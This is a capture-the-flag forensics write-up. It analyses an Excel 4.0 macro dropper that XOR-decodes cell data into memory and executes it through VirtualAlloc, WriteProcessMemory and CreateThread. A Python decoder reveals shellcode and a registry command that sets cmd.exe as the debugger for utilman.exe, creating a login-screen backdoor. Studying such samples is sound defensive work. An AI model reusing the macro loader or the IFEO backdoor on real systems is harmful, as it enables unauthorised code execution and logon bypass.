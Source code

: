 # Free Services

## First Look

This challenge came with an excel file containing Excel 4.0 macros and a table of data.

Macros:

```vba
=SELECT(E1:G258)
=CALL("Kernel32","VirtualAlloc","JJJJJ",0,386,4096,64)
=SET.VALUE(C1, 0)
=FOR("counter",0,772,2)
=SET.VALUE(B1,CHAR(BITXOR(ACTIVE.CELL(),24)))
=CALL("Kernel32","WriteProcessMemory","JJJCJJ",-1, A2 + C1,Β1, LEN(Β1), 0)
=SET.VALUE(C1, C1 + 1)
=SELECT(, "RC[2]")
=NEXT()
=CALL("Kernel32","CreateThread","JJJJJJJ",0, 0, R2C6, 0, 0, 0)
=WORKBOOK.ACTIVATE("Sheet1")
HALT()
```

<details>
  <summary>Data</summary>
  
 228	54	240
244	154	233
24	216	24
9	24	172
120	252	145
15	253	103
41	52	216
214	124	244
147	90	72
198	40	53
147	70	74
93	20	118
147	240	74
88	12	91
147	224	106
217	48	114
23	217	175
22	82	188
62	217	41
191	231	130
180	150	36
18	121	235
100	52	26
39	52	99
56	231	217
29	215	212
21	77	25
70	223	58
250	130	234
247	74	183
79	8	147
196	74	207
8	147	147
221	82	111
36	212	147
24	84	57
9	21	96
90	251	186
80	23	25
29	201	163
73	89	147
39	65	52
56	79	25
250	203	45
147	245	81
57	0	194
251	105	34
130	81	176
147	95	44
156	147	108
25	122	206
187	41	40
231	211	180
34	217	244
215	235	21
61	25	146
223	113	32
238	248	39
109	247	238
137	27	205
101	61	224
27	35	156
101	40	60
88	109	241
252	109	64
211	147	104
64	202	60
190	25	194
203	28	126
168	147	121
20	239	83
255	147	175
64	158	4
157	25	125
203	139	147
78	28	32
147	126	25
72	200	228
145	103	92
103	60	254
60	12	67
151	67	134
121	48	65
92	66	244
73	163	231
146	248	121
71	35	71
53	66	79
147	219	10
153	243	74
149	217	69
120	114	172
25	6	149
246	157	176
170	245	24
217	24	119
24	163	72
95	112	127
41	153	147
72	119	147
159	202	231
251	205	27
163	56	232
179	173	96
186	25	78
9	112	255
190	173	141
103	165	169
133	54	231
63	205	144
36	219	30
250	100	120
18	240	152
183	227	103
248	110	109
47	29	205
163	162	95
175	11	46
106	56	119
199	114	67
24	164	75
12	231	114
205	66	74
73	93	180
95	147	56
79	89	69
92	104	92
177	56	66
58	238	80
160	83	199
84	79	85
70	68	233
75	43	87
54	94	210
76	167	79
30	89	47
74	231	93
111	68	133
85	81	113
64	123	155
106	49	119
54	107	16
119	19	126
148	108	112
68	40	79
123	113	200
118	207	124
56	119	232
111	151	107
235	56	223
86	82	76
154	68	186
91	87	109
75	106	57
106	197	125
139	118	240
108	123	78
169	125	160
106	131	107
132	113	71
119	221	118
193	68	251
81	70	117
105	121	107
127	161	125
64	56	138
94	145	113
94	116	152
125	57	56
86	93	64
96	205	125
44	123	226
109	253	108
23	113	233
119	117	118
251	56	33
87	134	104
170	108	148
113	60	119
215	118	143
107	21	68
233	109	68
108	190	113
181	116	141
117	120	121
132	118	150
54	99	125
217	96	132
125	213	58
227	56	174
55	229	108
67	56	29
74	57	93
2	95	36
71	80	75
154	66	96
56	56	55
146	110	65
56	197	92
243	125	194
122	246	109
3	127	180
127	209	125
123	106	121
56	224	55
243	124	71
56	19	58
142	91	232
34	43	68
16	111	171
113	236	118
25	124	212
119	24	111
78	107	2
68	129	107
113	97	73
107	31	108
183	125	200
117	78	43
234	42	46
68	115	123
76	117	196
124	116	54
135	125	37
96	122	125
156	58	7
56	133	55
79	126	153
35	83	125
118	123	250
112	51	119
160	56	238
58	11	80
62	76	28
90	79	99
48	41	9
107	217	71
27	108	18
112	8	41
10	107	98
71	45	127
135	44	219
116	134	44
126	96	91
97	239	71
150	116	51
40	190	107
216	108	73
71	98	41
30	118	79
71	100	108
66	41	81
117	41	43
144	39	8
39	100	57
150	101	133
58	46	24
187		

</details>

## Attack Details

The macros allocate memory, then loop through the cells, starting with the first value and taking every other value after that.  Each value is XOR'd with 24 and then written into the allocated memory space.  After the loop is done, a thread is created to run.  We just care about the values written to memory, so we can recreate this in a quick script.

## Extracting the Payload

```python
data = '228 54 240 244 154 233 24 216 24 9 24 172 120 252 145 15 253 103 41 52 216 214 124 244 147 90 72 198 40 53 147 70 74 93 20 118 147 240 74 88 12 91 147 224 106 217 48 114 23 217 175 22 82 188 62 217 41 191 231 130 180 150 36 18 121 235 100 52 26 39 52 99 56 231 217 29 215 212 21 77 25 70 223 58 250 130 234 247 74 183 79 8 147 196 74 207 8 147 147 221 82 111 36 212 147 24 84 57 9 21 96 90 251 186 80 23 25 29 201 163 73 89 147 39 65 52 56 79 25 250 203 45 147 245 81 57 0 194 251 105 34 130 81 176 147 95 44 156 147 108 25 122 206 187 41 40 231 211 180 34 217 244 215 235 21 61 25 146 223 113 32 238 248 39 109 247 238 137 27 205 101 61 224 27 35 156 101 40 60 88 109 241 252 109 64 211 147 104 64 202 60 190 25 194 203 28 126 168 147 121 20 239 83 255 147 175 64 158 4 157 25 125 203 139 147 78 28 32 147 126 25 72 200 228 145 103 92 103 60 254 60 12 67 151 67 134 121 48 65 92 66 244 73 163 231 146 248 121 71 35 71 53 66 79 147 219 10 153 243 74 149 217 69 120 114 172 25 6 149 246 157 176 170 245 24 217 24 119 24 163 72 95 112 127 41 153 147 72 119 147 159 202 231 251 205 27 163 56 232 179 173 96 186 25 78 9 112 255 190 173 141 103 165 169 133 54 231 63 205 144 36 219 30 250 100 120 18 240 152 183 227 103 248 110 109 47 29 205 163 162 95 175 11 46 106 56 119 199 114 67 24 164 75 12 231 114 205 66 74 73 93 180 95 147 56 79 89 69 92 104 92 177 56 66 58 238 80 160 83 199 84 79 85 70 68 233 75 43 87 54 94 210 76 167 79 30 89 47 74 231 93 111 68 133 85 81 113 64 123 155 106 49 119 54 107 16 119 19 126 148 108 112 68 40 79 123 113 200 118 207 124 56 119 232 111 151 107 235 56 223 86 82 76 154 68 186 91 87 109 75 106 57 106 197 125 139 118 240 108 123 78 169 125 160 106 131 107 132 113 71 119 221 118 193 68 251 81 70 117 105 121 107 127 161 125 64 56 138 94 145 113 94 116 152 125 57 56 86 93 64 96 205 125 44 123 226 109 253 108 23 113 233 119 117 118 251 56 33 87 134 104 170 108 148 113 60 119 215 118 143 107 21 68 233 109 68 108 190 113 181 116 141 117 120 121 132 118 150 54 99 125 217 96 132 125 213 58 227 56 174 55 229 108 67 56 29 74 57 93 2 95 36 71 80 75 154 66 96 56 56 55 146 110 65 56 197 92 243 125 194 122 246 109 3 127 180 127 209 125 123 106 121 56 224 55 243 124 71 56 19 58 142 91 232 34 43 68 16 111 171 113 236 118 25 124 212 119 24 111 78 107 2 68 129 107 113 97 73 107 31 108 183 125 200 117 78 43 234 42 46 68 115 123 76 117 196 124 116 54 135 125 37 96 122 125 156 58 7 56 133 55 79 126 153 35 83 125 118 123 250 112 51 119 160 56 238 58 11 80 62 76 28 90 79 99 48 41 9 107 217 71 27 108 18 112 8 41 10 107 98 71 45 127 135 44 219 116 134 44 126 96 91 97 239 71 150 116 51 40 190 107 216 108 73 71 98 41 30 118 79 71 100 108 66 41 81 117 41 43 144 39 8 39 100 57 150 101 133 58 46 24 187'

data = data.split(' ')

data = [data[i] for i in range(len(data)) if i%2 == 0] # Take only every other value

data = [int(i) ^ 24 for i in data] # XOR each value with with decimal 24

print(''.join([chr(i) for i in data])) # Print values as text
```

## Results

```powershell
rafiina@vultr:~/htb/forensics/free-services$ python3 solve.py
üè`å1ÀdP0R
²Ph1oÿÕ»ðµ¢Vh¦½ûàu»GrojSÿÕREG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f;echo "HTB{1s_th1s_g4l4xy_l0st_1n_t1m3??!}"
```

## The Flag

`HTB{1s_th1s_g4l4xy_l0st_1n_t1m3??!}`

## Final Notes

The actual attack attempts to take advantage of utilman to make a shell available at the Windows device login screen via a simple keyboard shortcut.  This is done using IFEO in the windows registry.

https://www.technibble.com/bypass-windows-logons-utilman/
